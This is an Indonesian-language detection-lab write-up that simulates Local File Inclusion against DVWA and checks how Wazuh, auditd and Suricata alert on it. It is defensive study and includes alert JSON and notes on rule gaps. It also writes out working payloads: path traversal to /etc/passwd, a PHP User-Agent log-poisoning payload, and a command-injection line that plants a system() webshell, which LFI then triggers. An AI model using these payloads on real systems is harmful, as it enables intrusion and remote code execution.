







# File Inclusion (LFI) — DVWA (Web-Server)

## Tujuan

Simulasi manual **Local File Inclusion** ke modul **File Inclusion** DVWA (`10.10.10.10`) dari Kali Linux — sekaligus jadi validasi lanjutan buat 2 hal:

1. Apakah payload LFI (parameter GET, beda dari POST body Command Injection) ke-log normal di `access.log` dan Wazuh bisa detect
2. Apakah **auditd** (rule `100300`) dan **Suricata custom rule** (`1000003`) yang udah dibangun buat lab Command Injection **generalisasi** ke attack vector yang beda sama sekali, atau ternyata butuh rule tambahan spesifik buat File Inclusion

Sesuai filosofi lab: deteksi dulu, bukan eksploitasi.

---

## Prerequisites

- DVWA sudah bisa diakses dari Kali — lihat [`dvwa-external-access.md`](../../../Infrastructure/dvwa-external-access.md)
- Wazuh Agent di Web-Server sudah running, baca `access.log` — lihat [`web-server-wazuh-agent.md`](../../../Infrastructure/web-server-wazuh-agent.md)
- auditd + custom rule `100300` udah aktif — lihat [`web-server-auditd-setup.md`](../../../Infrastructure/web-server-auditd-setup.md)
- Suricata + custom rule `1000003` udah aktif — lihat [`pfsense-suricata-setup.md`](../../../Infrastructure/pfsense-suricata-setup.md)
- DVWA **Security Level** di-set ke `Low`

> **Catatan RFI (skip):** Web-Server jalan di PHP 8.5.4, dan `allow_url_include` udah default off sejak PHP 5.2 (makin dibatasi di versi modern). Karena itu **RFI di-skip** dari lab ini — fokus ke LFI baca file + log poisoning ke RCE, yang gak bergantung ke `allow_url_include`.

---

## Step-by-Step

Modul **File Inclusion** DVWA nerima parameter `page` yang nentuin file mana yang di-*include* (`?page=include.php`). Di security level Low, parameter ini gak divalidasi sama sekali — bisa diarahin ke file lain, baik lokal (LFI) maupun remote (RFI).

Web-Server di lab ini install DVWA langsung di webroot (`/var/www/html/vulnerabilities/fi/`, bukan struktur `/var/www/html/DVWA/...` standar), jadi depth path traversal-nya beda dari referensi umum — 5 level `../` buat nyampe root filesystem dari `vulnerabilities/fi/` (`var` → `www` → `html` → `vulnerabilities` → `fi`), bukan 6.

Akses via NAT port forward pfSense — lihat [`dvwa-external-access.md`](../../../Infrastructure/dvwa-external-access.md). Contoh URL pakai `<PFSENSE_WAN_IP>` sebagai placeholder.

### 1. Baseline

Cek behavior normal, `page=include.php` / `file1.php` / `file2.php` / `file3.php` — nampilin isi masing-masing file bawaan DVWA.

### 2. LFI — Baca File Sensitif

```
?page=../../../../../etc/passwd
```

Path traversal buat baca file sistem yang seharusnya gak bisa diakses lewat web. **Berhasil** — lihat [Verifikasi](#verifikasi).

### 3. LFI + Log Poisoning — Eskalasi ke RCE

Teknik 2 langkah:

1. Kirim request ke DVWA dengan header **User-Agent** disisipin kode PHP:
   ```
   User-Agent: <?php system($_GET['cmd']); ?>
   ```
   Request ini bakal ke-log apa adanya (termasuk kode PHP-nya) di `access.log` Apache.

2. Include `access.log` itu sendiri lewat LFI, sekalian kirim parameter `cmd`:
   ```
   ?page=../../../../../var/log/apache2/access.log&cmd=id
   ```
   Karena `access.log` isinya "dijalanin" sebagai PHP pas di-include, kode `system($_GET['cmd'])` yang nempel di User-Agent tadi ikut jalan — hasilnya RCE, command `id` (atau apapun) tereksekusi di server.

**Gagal** — PHP warning `failed to open stream` pas include `access.log`, walaupun depth path traversal-nya sama persis logikanya kayak `/etc/passwd` yang berhasil (Step 2). Lihat [Verifikasi](#step-3--lfi--log-poisoning-gagal).

### 4. RFI — Skip

Gak dijalanin di lab ini — Web-Server PHP 8.5.4, `allow_url_include` off by default. Lihat catatan di Prerequisites.

### 5. LFI + Command Injection — Web Shell (Eskalasi Alternatif)

Karena log poisoning (Step 3) mentok, RCE tetep dicapai lewat kombinasi 2 vuln berbeda:

1. Pake modul **Command Injection** DVWA (`vulnerabilities/exec/`) buat nulis file PHP webshell ke webroot:
   ```bash
   ; echo '<?php system($_GET["cmd"]); ?>' > /var/www/html/shell.php
   ```
   (single quote di sekitar payload — biar bash gak nginterpretasi `$_GET` sebagai shell variable dan bikin isi file cacat)

2. Verifikasi file kebuat, `ls /var/www/html`

3. Trigger webshell lewat LFI (bukan diakses langsung — biar tetep dalam konteks lab File Inclusion):
   ```
   ?page=../../shell.php&cmd=id
   ```

**Berhasil** — output `id` muncul di response, RCE tercapai lewat file-write primitive (Command Injection) + trigger eksekusi (LFI). Lihat [Verifikasi](#step-5--lfi--command-injection-web-shell).

---

## Verifikasi

### Step 2 — LFI ke `/etc/passwd`


Path traversal `?page=../../../../../etc/passwd` berhasil nampilin isi `/etc/passwd` di response (HTTP 200).



Wazuh Dashboard mendeteksi request ini sebagai alert (rule `31106`, level 6):

```json
{
  "agent": { "ip": "10.10.10.10", "name": "web-server" },
  "data": {
    "protocol": "GET",
    "srcip": "192.168.43.111",
    "id": "200",
    "url": "/vulnerabilities/fi/?page=../../../../../etc/passwd"
  },
  "rule": {
    "level": 6,
    "description": "A web attack returned code 200 (success).",
    "id": "31106",
    "mitre": {
      "technique": ["Exploit Public-Facing Application"],
      "id": ["T1190"],
      "tactic": ["Initial Access"]
    }
  },
  "full_log": "192.168.43.111 - - [18/Jul/2026:10:39:17 +0700] \"GET /vulnerabilities/fi/?page=../../../../../etc/passwd HTTP/1.1\" 200 2158 \"-\" \"Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0\"",
  "timestamp": "2026-07-18T03:39:17.988+0000"
}
```

IP `192.168.43.111` (Kali) berhasil path traversal ke `/etc/passwd` pukul 10:39 (18 Juli 2026), response 200 — celah LFI beneran ke-exploit.

Rule `31106` map ke **T1190 (Exploit Public-Facing Application)** dari sisi generic web-attack detection Wazuh. Tapi dari konteks payload-nya sendiri — baca file sistem lewat path traversal — teknik ini lebih presisi dipetakan juga ke **T1083 (File and Directory Discovery)**, karena tujuan langsungnya adalah enumerasi/pembacaan file & direktori di server, bukan cuma "eksploitasi aplikasi" secara generik. Worth dicatat sebagai gap: rule `31106` cover deteksinya, tapi mapping MITRE-nya kurang spesifik dibanding teknik yang beneran dipakai attacker.

### Step 3 — LFI + Log Poisoning (Gagal)

Include `?page=../../../../../var/log/apache2/access.log&cmd=id` — hasilnya PHP warning `failed to open stream`, bukan output `id`. Ini beda karakter warning-nya dari kasus depth-salah sebelumnya (yang biasanya "No such file or directory") — `failed to open stream` lebih mengarah ke **permission**, bukan path yang salah.



Reproduce lewat `curl` (session cookie DVWA + `security=low`) ke `?page=../../../../../var/log/apache2/access.log&cmd=id` — response-nya eksplisit **`Permission denied`**:

```
Warning: include(././../../../var/log/apache2/access.log): Failed to open stream: Permission denied in /var/www/html/vulnerabilities/fi/index.php on line 36
Warning: include(): Failed opening '././../../../var/log/apache2/access.log' for inclusion (include_path='.:/usr/share/php') in /var/www/html/vulnerabilities/fi/index.php on line 36
```

Ini **mengkonfirmasi langsung** hipotesis permission tanpa perlu `ls -la` manual — pesan error PHP-nya sendiri udah eksplisit nyebut `Permission denied`, bukan cuma dugaan dari perbedaan tipe warning aja. Kesimpulan: `access.log` di Ubuntu defaultnya `root:adm`, mode `640` — cuma readable sama owner (`root`) dan group `adm`. Proses PHP/Apache jalan sebagai `www-data` (uid `33`, terverifikasi dari log auditd di Step 5), dan `www-data` **bukan** anggota group `adm`. Beda sama `/etc/passwd` yang mode `644` (world-readable), makanya itu bisa kebaca siapapun termasuk `www-data`.



Meskipun exploitation-nya gagal (permission denied, gak ada RCE), request ini **tetap ke-log dan tetap fire alert** di Wazuh — rule `31106`, level 6, sama seperti Step 2:

```json
{
  "agent": { "ip": "10.10.10.10", "name": "web-server" },
  "data": {
    "protocol": "GET",
    "srcip": "192.168.43.111",
    "id": "200",
    "url": "/vulnerabilities/fi/?page=../../../../../var/log/apache2/access.log&cmd=id"
  },
  "rule": {
    "level": 6,
    "description": "A web attack returned code 200 (success).",
    "id": "31106",
    "mitre": {
      "technique": ["Exploit Public-Facing Application"],
      "id": ["T1190"],
      "tactic": ["Initial Access"]
    }
  },
  "full_log": "192.168.43.111 - - [18/Jul/2026:22:02:46 +0700] \"GET /vulnerabilities/fi/?page=../../../../../var/log/apache2/access.log&cmd=id HTTP/1.1\" 200 4365 \"-\" \"curl/8.20.0\"",
  "timestamp": "2026-07-18T15:02:47.814+0000"
}
```

Worth dicatat sebagai gap kedua di rule `31106`: `rule.description` bilang **"returned code 200 (success)"**, tapi "success" di sini cuma berarti Apache/DVWA berhasil ngerender halaman dengan HTTP 200 — bukan berarti exploitation-nya berhasil. Request ini sebenarnya **gagal total** (PHP `Permission denied`, gak ada RCE), tapi tetap diberi label "success" sama rule karena rule cuma ngecek status code response, bukan konten atau outcome sebenarnya dari attack. Analis L1 yang cuma baca description tanpa cek payload/response bisa salah simpulin ini sebagai serangan yang berhasil.

### Step 5 — LFI + Command Injection (Web Shell)

**1. Tulis webshell via Command Injection**



**2. Verifikasi file kebuat**



**3. Trigger webshell lewat LFI — `id` berhasil dieksekusi**



**4. Wazuh Dashboard mencatat seluruh chain**



Tiga alert yang saling berurutan buat satu chain serangan ini:

1. **auditd (`100300`, level 12)** — `ls` dieksekusi `www-data` dari `cwd=/var/www/html/vulnerabilities/exec` (proses verifikasi file dari Command Injection module):
   ```json
   {
     "rule": { "id": "100300", "level": 12, "description": "LOLBin: www-data (Apache) menjalankan proses baru \"ls\" - indikasi command injection",
       "mitre": { "technique": ["Command and Scripting Interpreter"], "id": ["T1059"], "tactic": ["Execution"] } },
     "data": { "audit": { "command": "ls", "uid": "33", "cwd": "/var/www/html/vulnerabilities/exec", "execve": { "a0": "ls", "a1": "/var/www/html" } } },
     "timestamp": "2026-07-18T04:10:38.506+0000"
   }
   ```

2. **web-accesslog (`31106`, level 6)** — request LFI ke `shell.php` lewat parameter `page`:
   ```json
   {
     "rule": { "id": "31106", "level": 6, "description": "A web attack returned code 200 (success).",
       "mitre": { "technique": ["Exploit Public-Facing Application"], "id": ["T1190"], "tactic": ["Initial Access"] } },
     "data": { "protocol": "GET", "srcip": "192.168.43.111", "id": "200", "url": "/vulnerabilities/fi/?page=../../shell.php&cmd=id" },
     "full_log": "192.168.43.111 - - [18/Jul/2026:11:11:02 +0700] \"GET /vulnerabilities/fi/?page=../../shell.php&cmd=id HTTP/1.1\" 200 1520 ...",
     "timestamp": "2026-07-18T04:11:04.519+0000"
   }
   ```

3. **auditd (`100300`, level 12)** — `id` dieksekusi `www-data` dari `cwd=/var/www/html/vulnerabilities/fi`, ~beberapa milidetik setelah request LFI di atas:
   ```json
   {
     "rule": { "id": "100300", "level": 12, "description": "LOLBin: www-data (Apache) menjalankan proses baru \"id\" - indikasi command injection",
       "mitre": { "technique": ["Command and Scripting Interpreter"], "id": ["T1059"], "tactic": ["Execution"] } },
     "data": { "audit": { "command": "id", "uid": "33", "cwd": "/var/www/html/vulnerabilities/fi", "execve": { "a0": "id" } } },
     "timestamp": "2026-07-18T04:11:04.527+0000"
   }
   ```

Korelasi timestamp `04:11:04.519` (request LFI) → `04:11:04.527` (proses `id` ke-spawn) — selisih 8ms, cukup buat nyimpulin dua alert ini satu chain yang sama, walaupun sumber log-nya beda (`web-accesslog` vs `auditd`) dan `cwd` proses `id`-nya `vulnerabilities/fi` (bukan `vulnerabilities/exec` kayak alert `ls` sebelumnya) — konsisten sama fakta command dieksekusi lewat LFI, bukan lewat form Command Injection langsung.

### auditd (`100300`) & Suricata (`1000003`) — Generalisasi ke File Inclusion

**auditd (`100300`) — confirmed generalisasi.** Rule ini didesain buat lab Command Injection (deteksi LOLBin process spawn dari `www-data`), tapi ternyata **gak peduli jalur HTTP-nya** — baik command dipicu dari form Command Injection (`vulnerabilities/exec`) maupun dari parameter `page` LFI yang nge-*include* webshell (`vulnerabilities/fi`), rule tetep fire karena yang dideteksi adalah **proses OS-level yang di-spawn** (`execve` syscall), bukan payload HTTP-nya. Ini exact match sama pertanyaan awal lab: rule berbasis *process behavior* generalisasi ke attack vector yang beda, karena akar deteksinya di layer yang lebih dalam dari sekadar parsing request.

**Suricata (`1000003`) — tidak generalisasi, butuh rule tambahan.** Rule ini scope-nya eksplisit "Detect Command Injection separators in **POST Body**" (lihat [`pfsense-suricata-setup.md`](../../../Infrastructure/pfsense-suricata-setup.md)) — dibangun buat inspeksi konten POST body dari form Command Injection DVWA. Serangan LFI di lab ini semuanya lewat parameter GET (`?page=...`), jadi secara struktural gak pernah match sama rule ini — bukan soal payload-nya gak kedeteksi, tapi lokasi yang di-inspect (POST body vs GET query string) beda dari desain awal rule.

Ini jawab langsung pertanyaan Tujuan #2: auditd (`100300`) generalisasi karena deteksinya di layer proses OS, sementara Suricata (`1000003`) **butuh rule tambahan spesifik** buat cover payload di GET query string (path traversal `../`, LFI-to-webshell pattern) kalau mau punya deteksi network-layer buat File Inclusion — belum dibangun di lab ini.
